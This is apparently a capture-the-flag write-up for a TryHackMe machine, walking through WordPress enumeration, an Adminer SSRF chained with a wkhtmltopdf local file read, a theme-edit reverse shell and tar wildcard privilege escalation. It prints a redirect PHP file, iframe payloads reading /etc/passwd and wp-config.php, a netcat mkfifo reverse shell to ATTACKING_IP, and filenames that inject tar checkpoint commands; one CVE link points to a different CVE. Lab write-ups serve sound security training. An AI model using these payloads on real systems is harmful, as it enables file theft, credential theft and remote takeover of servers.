This box is rated hard difficulty on THM. It involves us chaining SSRF to an LFI vulnerability in order to read files on the web server. Doing so gives us admin credentials for wordpress where we can grab a reverse shell by updating one of the theme's source code. Finally, we discover that the PAM for Sudo allows us to an environment variable to an SSH agent socket in order to use Sudo without a password.

_Ride the Wave!_

## Scanning & Enumeration
As always, I begin with an Nmap scan against the provided IP to find all running services on the host. Repeating the same for UDP returns no results.

```
$ sudo nmap -p22,80 -sCV 10.67.158.144 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 14:46 CST
Nmap scan report for 10.67.158.144
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2d:d4:57:39:2a:a2:72:63:14:47:c7:e4:09:14:ff:84 (RSA)
|   256 b4:bd:09:25:d3:42:ec:f9:d3:8c:e3:31:04:d5:02:25 (ECDSA)
|_  256 f4:9a:b1:2e:99:05:4a:5c:cf:9d:f6:ef:fd:57:72:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.39 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Not much we can do on SSH without credentials so this box will be web-heavy. Before opening my browser, I start some Gobuster scans to leave in the background to find subdirectories/subdomains. Checking the website shows the default boilerplate Apache page.



As there are no entries on robots.txt or common directories exposed to us, enumeration will be key in expanding the box's attack surface. Letting a full subdomain fuzz run for a bit yields no results and SSL is not being utilized, so I rule out any kind of DNS attacks.

```
$ wfuzz -c \
  -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt \ 
  --hw 35 -H "Host: FUZZ.10.67.158.144" \
  http://10.67.158.144

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.67.158.144/
Total requests: 114442

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                              
=====================================================================

Total time: 0
Processed Requests: 114442
Filtered Requests: 114442
Requests/sec.: 0
```

A half-dozen directory scans later, and I don't find a single page that returns anything other than a 404 Not Found response. I turn to intercepting a request to the landing page in hopes to find any non-standard headers that will disclose app logic or any info I can use to discover functionality.



Looking at the response from the web server gives me an X-Backend-Server header. This is used to disclose information about the specific backend server that processed a request, and is often implemented for debugging purposes. I add that domain to my `/etc/hosts` file and go to check it out.



This looks to be a Surf shop's website and a quick look at the footer/source code shows that it's ran on Wordpress. Under the About tab is a small list of employees we can add to a username list in case a brute force is needed in the near future. Also, Kyle's account is probably our golden ticket to a reverse shell as he is listed as the sysadmin. I take note that his description says he is an avid PHP coder, which makes me believe he might've written a custom API or page that is vulnerable.

I test the `/wp-admin` panel for default or common credentials and only find that verbose errors are enabled, which will let us enumerate usernames. I'll use WPScan to find any vulnerable plugins/themes and to check if XML-RPC is enabled to brute force there.

_Note: I always check if XML-RPC is enabled on WP applications as it allows us to use system.multicall to bypass rate-limiting and attempt multiple username/password combinations within a single HTTP request._

```
$ wpscan --url http://seasurfer.thm -e vp,vt,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://seasurfer.thm/ [10.67.158.144]
[+] Started: Fri Feb  6 15:34:23 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://seasurfer.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://seasurfer.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://seasurfer.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://seasurfer.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.9.3 identified (Insecure, released on 2022-04-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://seasurfer.thm/feed/, <generator>https://wordpress.org/?v=5.9.3</generator>
 |  - http://seasurfer.thm/comments/feed/, <generator>https://wordpress.org/?v=5.9.3</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://seasurfer.thm/wp-content/themes/twentyseventeen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | Readme: http://seasurfer.thm/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 4.0
 | Style URL: http://seasurfer.thm/wp-content/themes/twentyseventeen/style.css?ver=20201208
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 2.9 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://seasurfer.thm/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.9'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:17 <=======================================> (652 / 652) 100.00% Time: 00:00:17
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=========================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] kyle
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://seasurfer.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Oembed API - Author URL (Aggressive Detection)
 |   - http://seasurfer.thm/wp-json/oembed/1.0/embed?url=http://seasurfer.thm/&format=json
 |  Rss Generator (Aggressive Detection)
 |  Author Sitemap (Aggressive Detection)
 |   - http://seasurfer.thm/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Feb  6 15:34:44 2026
[+] Requests Done: 676
[+] Cached Requests: 45
[+] Data Sent: 179.461 KB
[+] Data Received: 760.845 KB
[+] Memory used: 290.996 MB
[+] Elapsed time: 00:00:21
```

Parsing the scan's output gives us the WP version and only one valid user being the sysadmin. I'll fire up hydra to brute force the admin panel as Kyle, but I'm not expecting to get any hits. The name of the box seemed to be hinting at an SSRF/CSRF attack, however Wordpress applications don't typically grant tokens before login and if we already have access, that vulnerability becomes pointless for us.

## SSRF & LFI Exploit Chain
I keep on enumerating directories and common file names on this domain and get a unique hit at /adminer. This is an open-source DBMS tool that is designed to be a singular PHP file.



Since the page gives us the current version, I Google any known exploits within this application and come across [CVE-2021–21311](https://nvd.nist.gov/vuln/detail/CVE-2024-13439) which states that v4.0.0-v4.7.8 are affected by a server-side request forgery vulnerability. 

I discover [this Python PoC](https://github.com/llhala/CVE-2021-21311) which will allow us to make requests on behalf of the server to an internal web application, now all we need is somewhere to poke at. Restarting subdomain enumeration on this domain will give us another site at `internal.seasurfer.thm`, we can also find this in a comment left by Brandon on the News blog post. Let's add that to our `/etc/hosts` file and check it out.



Judging by what Brandon's comment said, this seems to be some kind of employee site dedicated to making customer receipts. The input form looks pretty old-school, so I submit some random values to test what gets done with them.



After hitting Create receipt, the application hangs for a bit and then generates a .pdf file, subsequently redirecting us to the newly created form containing our unsanitized input.



Capturing a request to make new receipts only shows that we send our input to the site in order for it to generate the PDF and then we get redirected to it, nothing special there. I download one of the files created to look at metadata which shows the PDF generator being used is `wkhtmltopdf v0.12.5`.



Searching known vulnerabilities for that rewards me with [CVE-2020–21365](https://nvd.nist.gov/vuln/detail/CVE-2020-21365), explaining that default configurations allows attackers to read local files via specially crafted HTML document. This exploit is possible because the PDF generator fails to check if doesn't properly check if the redirect link is to a local file and just fetches it outright.

Alright, we know that SSRF is possible on the /adminer endpoint that can make requests on behalf of the server to internal.seasurfer.thm which allows for LFI. How exactly do we chain these to grab sensitive data from the server's filesystem?

First, we need to create a malicious PHP file that will host a webshell for the internal subdomain to reach out to; I run `php -S 0.0.0.0:80` to make our file reachable. This is a simple payload that just executes PHP commands via the `$_GET` function.


```
<?php
$loc = "http://127.0.0.1/"; if(isset($_GET['p'])){ $loc = $_GET['p']; } header('Location: '.$loc);
?>
```


Next, we can utilize a common XSS payload to force the site to execute commands from our PHP file. I'll have it read a necessary file like `/etc/passwd` with the `file://` wrapper to test if this works first.


```
<imgsrc="http://MACHINE_IP/totallysafe.php?p=file:///etc/passwd">
```




We can see that the site succeeds in reaching out to grab `/etc/passwd`, but it has trouble displaying it in the Additional Information text box. I got this to work by changing it to an iframe and expaning the height to allow for the full file to be printed. In case you didn't know, an HTML iframe allows us to embed a document within the current one.


```
<iframe height=4000 src="http://MACHINE_IP/totallysafe.php?p=file:///etc/passwd">
```



  
Awesome, now we can read files! I'm assuming that the web server is being ran by www-data which won't let us grab things like id_rsa keys from other user's home directories. However there are a few applications which require credentials to sign in at, notably Wordpress which usually has a hardcoded password on it. 

## Initial Foothold
Just like internal enumeration when I get a shell as www-data, I'll look for config files pertaining to the web server. Since this site's on port 80, WP files will most likely be hosted in `/var/www` under a directory named something like Wordpress or website. I use the same exploit chain to test for files under that location and get a hit back from wp-config.php.

```
<iframe height=4000 src="http://MACHINE_IP/totallysafe.php?p=file:///var/www/wordpress/wp-config.php">
```


Heading back to the `/adminer` page allows us to login to the MySQL database using the wordpressuser credentials. I use the execute SQL command function to dump all contents from the wp_users table which grants me a hash for Kyle's admin account.


Sending that over to JohnTheRipper or Hashcat will give us the plaintext version of his password to login as Kyle on the Wordpress site. I test these credentials for SSH as well but only keys are allowed for signons there, meaning we'll have to get a shell as www-data on WP.



Funny thing is, since XML-RPC was enabled on the Wordpress site and I cracked the hash with rockyou.txt, brute forcing Kyle's login was a possibility (although it would take a long time). Either way SSRF to LFI was way more fun so I'm not complaining.

After signing in as Kyle, we can see the team-members plugin is installed on the system. I found that the version was not prone to any vulnerabilities, so I proceeded with the normal route of updating the site's theme `404.php` page to be a reverse shell pointed towards my attacking machine. [This article](https://0xma.github.io/hacking/wordpress_theme_edit.html) is a good reference for more information on how this works.



I start internal enumeration on the box as we finally have a reverse shell as www-data, starting with databases. I'll also upgrade it with the typical `Python3 import pty` method.

## Privilege Escalation
Whilst checking for any DB files in the internal subdomains directory, I come across a backup.sh script inside `/maintenance`. 



The backup script gets executed by Kyle every minute and is set to use the tar binary to zip all files within the invoices directory. The important thing to notice here is the wildcard operator at the end of the command, this will allow us to fabricate malicious filenames to pass into the binary in order to have it execute our reverse shell.

[This article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) goes more in depth on how this exploit is possible as well as other ways to exploit wildcards. While in the `/internal/invoices` directory, I echo a Netcat mkfifo shell in a file named `shell.sh`, then I create two empty files which will serve as flags to redirect the binary.

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKING_IP PORT>/tmp/f" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

